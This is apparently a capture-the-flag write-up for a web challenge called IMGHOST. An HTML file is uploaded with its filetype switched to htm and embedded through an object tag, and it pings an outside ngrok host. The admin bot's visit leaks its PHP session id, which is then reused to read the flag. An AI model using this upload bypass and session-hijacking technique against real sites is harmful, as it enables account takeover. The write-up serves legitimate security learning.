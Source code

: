 # IMGHOST

Points: 100

I wasn't able to solve this in time, so this write-up is based on the solution
from the author.

At first glance, this looks like an XSS challenge. However, the weird thing is
the `object` tag.

If we try to send JS in an fake PNG, it doesn't execute, which was where I got
stuck.

But it turns out that you can change the file type from the selector.
Using this payload in `inj.htm` and modifying the request to use a filetype of
`htm`, it loaded successfully in the `object` tag.
```html
<!DOCTYPE html>
<html>
    <head>
        <meta charset="UTF-8" />
        <meta name="viewport" content="width=device-width" />
        <title>Hello</title>
    </head>
    <body>
        <h1>Hello</h1>
        <img src="http://6f97f1b2d483.ngrok.io/idiot.png"/>
    </body>
</html>
```

After clicking `Report Abuse`, the admin bot accessed this page. I got this
request:
```
http://web/uploads/kUtKCFpFlfcYV4ZMZqXP.htm?
  lang=en&
  ref=website&
  pd=673e4a8d240d0ba0a0cdb3db6ec8af65&
  u=5f9f0cce4332e&
  client=pybu3zheoyeupyzgodcrxf7oqc& <- this is set to the phpsessid!
  method=direct&
  t=1604259022
```

After setting my `phpsessid` cookie to `pybu3zheoyeupyzgodcrxf7oqc` and
navigating to the home page, I was able to see a file called `flag.txt`.

This gave me:
```
CSR{N1C3_4ND-E4ZY-W4snT-1T?-:)}
```

---

Note:
The source code `file.php` can be downloaded, but I didn't realize this.
